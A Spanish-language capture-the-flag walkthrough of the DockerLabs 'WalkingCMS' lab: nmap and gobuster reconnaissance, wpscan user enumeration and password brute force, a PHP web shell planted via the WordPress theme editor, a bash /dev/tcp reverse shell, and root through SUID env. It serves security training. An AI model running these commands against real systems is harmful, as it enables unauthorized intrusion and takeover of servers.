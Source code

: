# [WalkingCMS](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh walkingcms.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/50801b43-05e7-4999-91d4-d23412e03e67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como. podemos ver una página por defecto de Apache2, por lo que haremos un fuzzing para encontrar posible directorios de la siguiente forma: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2/ -x txt,sql,py,js,php,html`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8c202d25-653f-4177-a6fe-2344be418e8f)

<br>

Nos reporta que existe un directorio dentro de la web llamado `/wordpress`, por lo que entendemos que dicho servidor web está alojado en wordpress.
<br>

Una vez que sabemos que tiene un wordpress, pasaremos a usar la herramienta `wp-scan` la cual nos permite identificar posible vulnerabilidades a través de plugins, enumeración de usuarios y hacer un ataque de fuerza bruta al panel de login. Para usar dicha herramienta pondremos los siguiente: `wpscan --url http://172.17.0.2/wordpress --enumerate u, pv`, con la cual obtendremos que existe un usuario llamado `mario`:<br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`--enumerate u, pv` ⮞ le indicamos que nos enumere posible usuarios con la `u` y plugins con la `pv`. <br> 

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/96d9d3cc-7e1f-4621-b9f9-cd0ec4350bfe)

<br>
<br>

## Fuerza Bruta
Una vez conocemos el posible usuario haremos un ataque de fuerza bruta al panel de login que sería `/wp-admin`. Dicho ataque de fuerza bruta se podría hacer con burpsuite pero en este caso yo usaré wpscan ya que va más rápido, por lo que pondremos lo siguiente: `wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario`. <br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`-passwords` ⮞ especificamos la ruta del diccionario en este caso sería el [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br> 
`-usernames` ⮞ especificamos los usuarios en este caso solo es `mario`.
<br>

Nos reporta lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9874aab1-121f-4d9d-91b0-ecd7e24b3f63)

<br>

Ahora volvemos al panel de login que estaría en la siguiente ruta: `http://172.17.0.2/wordpress/wp-admin/`, nos logeamos con las credenciales obtenidas `(mario:love)`. Buscando por el panel de admin una posible forma de acceder a la máquina WalkingCMS observamos que si pinchamos en la parte de `Apariencia > Theme Code Editor` se nos abrirá un editor de código para los temas.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b0ef60eb-201e-43e4-812e-f7aaaeccc9b8)

<br>

Pinchando en el botón de `Create` de la derecha nos aparecerá el siguiente pop-up para crear um archivo/carpeta, creamos un archivo de nombre `cmd.php`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/684232e5-7e9b-4bae-b38f-48f1640beef6)

<br>

Pasamos a editar dicho archivo `.php` que tendrá el siguiente contenido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/563a2366-2256-48c9-818c-a56d2b398b3a)

<br>

Lo que debemos hacer ahora es acceder a dicho archivo a través de la URL, para ello nos iremos a la ruta que nos salía al crear un archivo, que sería `wordpress/wp-content/themes/twentytwentytwo/`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/741a0428-f358-45f0-b695-c2ae180839fe)

<br>

Y lo que queremos es acceder al archivo de nombre `cmd.php` por lo que introduciremos en la URL lo siguiente: `http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php`, y listo conseguiremos RCE (Remove Code Execution) pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ebca85b8-2f72-4f24-bdd2-90a04be442d1)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af76da05-55f2-4767-b1a9-15137429dc65)


## Escala de Privilegios
Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>
6-. `stty rows 49 cols 210`<br>
<br>

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6ba29ccd-363b-4722-a2db-3336b70e3121)

<br>

Vemos que tan solo se encuentra accesible el usuario `root`, por lo que entendemos que vamos a escalar privilegios directamente.
<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo, de hecho no esta ni instalado.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/76c547c0-de2e-4609-9734-fd31077927fa)

<br>

Buscaremos por permisos SUID ejecutando el siguiente comando `find / -perm -4000 2>/dev/null`<br>
`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/env`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3f30a8f4-66fd-4f0e-88f1-db7e0e97d629)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de SUID de env, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d3b33fc1-59de-43ba-936e-783c7673af92)

<br>

Por lo que probaremos a ejecutarlo en la máquina víctima poniendo `/usr/bin/env /bin/bash -p`
<br>

Comprobamos que nos ha cambiado el terminal, y listo si ya somos `root` y hacemos `whoami` para comprobarlo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ec54c601-2dd3-4c56-a7a1-b9f481dec655)
